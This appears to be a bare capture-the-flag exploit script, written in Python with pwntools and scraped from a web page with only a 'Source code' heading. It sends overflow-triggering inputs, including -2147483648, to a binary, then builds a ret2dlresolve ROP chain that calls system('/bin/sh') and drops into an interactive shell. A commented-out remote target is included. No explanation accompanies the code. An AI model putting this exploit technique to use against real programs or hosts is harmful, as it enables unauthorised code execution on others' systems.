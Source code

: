 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012cb9cec0a47601c2.jpg)<br>

import pwn

import time

​

pwn.context.log_level = “debug”

​

p = pwn.process(“./test”)

# p = pwn.remote(“39.105.138.97”, 1234)

​

p.send(b”\x00″*0x30)

time.sleep(0.3)

​

p.send(b”a”*0x20)

​

time.sleep(0.3)

p.send(“\x00”)

​

time.sleep(0.3)

p.sendline(“-2147483648”)

​

time.sleep(0.3)

p.sendline(“-1”)

​

time.sleep(0.3)

elf = pwn.ELF(“./test”)

rop = pwn.ROP(elf)

dlresolve = pwn.Ret2dlresolvePayload(elf, symbol=“system”, args=[“/bin/sh”])

rop.read(0, dlresolve.data_addr)

rop.ret2dlresolve(dlresolve)

raw_rop = rop.chain()

​

print(rop.dump())

print(raw_rop)

payload = pwn.fit(`{`64+pwn.context.bytes*3: raw_rop, 256: dlresolve.payload`}`)

print(len(payload))

​

p.send(payload)

​

p.interactive()

